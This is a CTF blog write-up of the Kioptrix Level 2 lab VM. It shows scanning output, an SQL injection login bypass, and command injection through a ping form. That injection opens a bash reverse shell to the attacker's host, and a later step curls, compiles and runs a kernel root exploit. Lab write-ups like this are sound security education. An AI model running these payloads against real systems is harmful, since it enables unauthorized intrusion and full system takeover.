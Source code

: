 ```yaml
---
layout: post
title: "Kioptrix 2 writeup"
subtitle: "~ Walkthrough of Kioptrix 2 machine ~"
date: 2017-10-04
author: V3ded
category: CTF
tags: blog ctf pentesting 
finished: true
---
```


# Intro
Hey guys, in this post I'll try and show you how to solve Level 2 Kioptrix machine. This is a first blog and there is heavy ongoing experimentation with Jekyll markup, so expect some aesthetical errors and uneven parts or padding.
Without further a do, let's start. 

# Scanning, enumeration and exploitation
Run netdiscover to find the IP of our needed machine:

```console
root@EdgeOfNight:~# netdiscover 

 Currently scanning: 192.168.45.0/16   |   Screen View: Unique Hosts           
                                                                               
 9 Captured ARP Req/Rep packets, from 7 hosts.   Total size: 540               
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.0.1       [REDACTED]          2      120  Compal Broadband Networks, I
 192.168.0.54      [REDACTED]          2      120  AzureWave Technology Inc.   
 192.168.0.87      [REDACTED]          1      60  Kaonmedia CO., LTD.         
 192.168.0.115     [REDACTED]          1      60  PCS Systemtechnik GmbH      
 192.168.0.234     [REDACTED]          1      60  Apple, Inc.                 
 192.168.0.53      [REDACTED]          1      60  Hon Hai Precision Ind. Co.,L
 192.168.0.101     [REDACTED]          1      60  Hon Hai Precision Ind. Co.,L
```

By digging around a bit I've found out that Kioptrix has been assined an IP of **192.168.0.115** !

As always it's important to find as much information about our target as possible and therefore I decided to run an nmap Scan.

```console
root@EdgeOfNight:~# nmap -A -T5 -sS 192.168.0.115
Starting Nmap 7.60 ( https://nmap.org ) at 2017-10-03 21:26 BST
Nmap scan report for 192.168.0.115
Host is up (0.00020s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http       Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            915/udp  status
|_  100024  1            918/tcp  status
443/tcp  open  ssl/https?
|_ssl-date: 2017-10-04T00:27:31+00:00; +4h00m02s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|_    SSL2_DES_192_EDE3_CBC_WITH_MD5
631/tcp  open  ipp        CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
3306/tcp open  mysql      MySQL (unauthorized)
MAC Address: 08:00:27:81:47:B7 (Oracle VirtualBox virtual NIC)
Device type: general purpose|media device
Running: Linux 2.6.X, Star Track embedded
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:2.6.23 cpe:/h:star_track:srt2014hd
OS details: Linux 2.6.9 - 2.6.30, Star Track SRT2014HD satellite receiver (Linux 2.6.23)
Network Distance: 1 hop

Host script results:
|_clock-skew: mean: 4h00m01s, deviation: 0s, median: 4h00m01s

TRACEROUTE
HOP RTT     ADDRESS
1   0.20 ms 192.168.0.115

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 121.00 seconds
```

We get hits on different ports such as 22 [SSH], 80 [HTTP], 111 [RPC bind], 3306 [MYSQL] and more.  Because our target is running an HTTP web server we put the IP in a browser which results in this page:

<img src="/img/blog/IMG_1797.jpg">

This seems like a custom, lazy-made login function. Normally I wouldn't try and break login pages & their authentication in the first stage of enumeration, but because of the cheap look, an attempt for [SQL injection](https://www.w3schools.com/sql/sql_injection.asp) won't hurt. And indeed, a simple `' or 1=1#` did the trick!  Login has been successfully bypassed and we are presented with yet another challenge!  

<img src="/img/blog/IMG_1798.JPG">

From enough completed challenges and CTFs I immediately recognized a possible code injection vulnerability. Let me explain. Our current webapp prompts us to enter a machine to ping. If you think about what's happening inside our target, a command like this is parsed: `ping Entered_IP`. Seems harmless, right? Well, no it is not! A character like "semicolon" (;) or "OR" can be used to append a terminator to the preset ping command which changes a query from `ping ENTERED_IP` to  `ping ENTERED_IP; malicious input`. This effectively allows for code execution which makes us able to enter any command we like into our designated machine. 

<img src="/img/blog/IMG_1799.JPG">

An attempt to estabilish a reverse shell with netcat was made, but as it appears, our target doesn't  have it. Luckily, there was another trick up my sleeve - `; bash -i >& /dev/tcp/192.168.0.213/4444 0>&1`. This is just another way of telling a computer to connect back to you. Of course before doing this we need to ready our netcat listener. `nc -lvp 4444`

<img src="/img/blog/IMG_1800.JPG">		
			 
`lvp - listen, verbose, port`

BOOM! 
If you are interested in doing more research in this topic I highly suggest this article: <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>


# Post Exploitation
Feels good once you get that shell, doesn't it? Non the less, we need to escalate our privileges and  pwn the server as a whole - not just as apache. Time to snoop around!

There are 2 users in the home directory (john and harold), however both of them have restriced home folders which we can not access. A search for uncommon misconfigurations such as writable passwd or shadow file yielded no result. After a while during my system enumeration I spotted that the kernel is pretty outdated. 
`uname -a` results in  `Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux`

Last compiled in 2007? This possibly opens up a privilege escalation vulnerability. After the finding, google search or exploitdb can be used for locating a corresponding kernel exploit.  
File of interest: <https://www.exploit-db.com/exploits/9545/>. Usually it's a good practice to avoid kernel exploitation as this opens up many dangers such as crashing or corrupting the machine. Always make sure there are no other options before trying kernel exploitation!

I decided to download the code onto my machine, host it on apache 2 webserver and make the victim download it via the previously gained shell. Here are the steps:

##### Our machine (where exploit.c is the file you downloaded):
```console
root@EdgeOfNight:~# mv /root/Downloads/privesc.c /var/www/html/ && /etc/init.d/apache2 start
[ ok ] Starting apache2 (via systemctl): apache2.service.
```
`mv - moves privesc.c file from Downloads to /var/www/html`

`/etc/init.d/apache2 start - starts apache web server on our machine which makes privesc.c file downloadable by accessing our IP address`

`&& - just executes the 2 commands after each other`


##### Kioptrix machine:
```console
cd /tmp && id && curl 192.168.0.213/exploit.c -o exploit.c 2> /dev/null && gcc exploit.c && ./a.out 
```

<img src="/img/blog/IMG_1801.JPG">

`cd /tmp - changes directory into tmp`

`id - prints user information before privilege escalation`

`curl IP/exploit.c - makes an HTTP request to our machine where /exploit.c is path to corresponding exploit, -o saves the output of the request, 2> is not needed - pipes the curl commands errors into "void"`

`gcc exploit.c - compiles our C code using GCC`

`./a.out - runs the compiled binary from GCC (every compiled file by this compiler has default output name of a.out)`

## <centre>Congratulations! The box has been rooted!</centre>

# Conclusion
A solid box with a lot of hidden knowledge for new people entering infosec community. There are always things to learn no matter how you many times you do them - same with this box. Personally I found this challenge quite easy, but enjoyed it non the less. My thanks goes to the creator for making such an awesome box.
-
Have any suggestions or feedback? Write it down below in the comments or send me a message on twitter!

~V3
